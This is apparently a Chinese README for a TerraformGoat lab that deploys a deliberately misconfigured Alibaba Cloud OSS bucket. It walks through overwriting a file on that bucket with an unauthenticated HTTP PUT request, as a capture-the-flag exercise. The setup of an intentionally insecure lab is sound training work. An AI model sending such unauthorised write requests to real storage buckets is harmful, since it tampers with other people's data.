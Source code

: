 # 描述

[English](./README.md) | 中文

这是一个帮你快速构建存储桶未授权上传场景的脚本，玩的愉快。

## 部署环境

### Git clone

```bash
cd /TerraformGoat/aliyun/oss/unrestricted_file_upload/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

如果确认没有问题，输入yes等待构建即可

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

访问/hx.png获取图片

![image-20220425192605952](../../../images/image-20220425192605952.png)

使用PUT方法即可覆盖这张图片

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

随后在使用GET方法获取我们覆盖的内容

![image-20220425192649111](../../../images/image-20220425192649111.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
